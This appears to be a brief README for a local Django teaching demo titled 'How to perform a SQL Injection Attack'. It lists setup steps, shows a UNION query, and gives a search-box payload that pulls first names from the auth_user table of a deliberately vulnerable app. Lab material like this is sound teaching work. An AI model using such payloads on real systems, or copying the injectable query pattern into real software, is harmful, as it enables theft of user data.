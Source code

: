 How to perform a SQL Injection Attack

Steps

- pip install Django
- python manage.py runsever
- http://127.0.0.1:8000/items/search
- SELECT name FROM orders_item WHERE name LIKE '%' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'
- Search for "z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '"

Adding a line for learning purposes

